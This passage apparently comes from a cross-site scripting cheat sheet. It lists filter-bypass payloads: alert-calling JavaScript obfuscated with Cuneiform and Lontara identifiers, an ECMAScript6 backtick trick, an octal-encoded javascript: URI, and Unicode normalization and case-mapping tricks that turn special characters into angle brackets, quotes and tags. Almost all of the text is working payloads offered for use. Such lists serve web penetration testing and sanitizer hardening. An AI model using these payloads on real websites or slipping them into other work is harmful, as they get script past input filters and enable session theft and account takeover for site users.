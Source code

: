 ### Bypass using Cuneiform

```javascript
cgonzalo"><script>𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()</script>
```

### Bypass using Lontara

```javascript
cgonzalo"><input onfocus=ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")() </autofocus>
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```

E.g : 
```
http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
```
%EF%BC%9E becomes >
%EF%BC%9C becomes <


Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```
